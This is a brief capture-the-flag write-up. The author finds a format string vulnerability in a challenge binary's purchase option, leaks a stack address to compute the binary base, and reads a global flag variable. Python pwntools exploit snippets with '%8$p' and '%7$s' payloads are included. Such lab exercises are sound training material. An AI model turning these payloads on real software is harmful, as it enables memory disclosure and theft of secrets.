 After playing around with the binary cause it uses a switch case i found that 5th case allow us to buy an item and ask for the item name and after that it just prints out you bought XXXXX so our input was reflecting so I check for <span style="color:red">`format string`</span> and yep there it is it started printing values on stack.

when I open the binary in <span style="color:red">`binary ninja`</span> i found that the binary opens the <span style="color:red">`flag.txt`</span> and reads the flag in a global variable named <span style="color:red">`FLAG`</span>

<img src="/assets/img/hacktivitycon/flag.png">

I first look values on the stack and found that I can leak some address of binary as it was on the stack at 8th offset

```python
p.recv()
p.sendline(b"5")
p.recv()
p.sendline(b"%8$p")
p.recvuntil(b"have bought a ")
base = int(p.recv(14),16) - 0x1740
```

Then the <span style="color:red">`FLAG`</span> variable is at 0x4060 offset from base address of binary

Then all we have to do is print the flag address as string <span style="color:red">`%s`</span> and we will get our flag

```python
p.recv()
p.sendline(b"5")
p.recv()
payload = b"%7$s    "
payload += p64(base + 0x4060)
p.sendline(payload)
print(p.recv())
```
